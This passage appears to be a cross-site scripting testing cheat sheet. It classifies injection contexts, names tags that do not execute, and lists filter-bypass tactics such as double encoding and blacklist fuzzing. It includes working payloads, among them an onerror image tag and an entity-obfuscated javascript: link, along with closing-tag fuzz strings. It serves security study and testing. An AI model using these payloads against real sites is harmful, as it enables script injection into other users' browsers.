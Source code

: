 Example:

```html
<img/xxx
<img/~/xxx
<img/~/onxxx
```

Some payloads:

```html
<a hRef="&#x74;avascript:&colon;alert()">test</a>
<IMG/src/onerror=alert(0)>
```

Outside Tag → Executable → <x{SP}onxxx → 3 cases 

1. Failed {Regex: delete or strip out the tag ⇒ noting }
2. Failed {Blacklist: FUZZ}
3. Encoded {Double encoded, HTML encode ⇒ it encodes your payload to html encode, you have encode it by URL or encoded it by html again }

### Non-executable:

The tags {also wont be executed in HTML comment}

```html
<style>
<title>
<noembed>
<template>
<noscript>
<textarea>
<!-- non-executanel -->
```

Start manual fuzz (for closing tags):

```html
</tag>
</tAg/x>
</tag{space}>
</tag//>
</tag%0a>
</tag%0d>
```

## Inside tag

some situation may occur

### Inside an Even Handler

Code example:

```html
<tag event_handler="func('$input')">
```
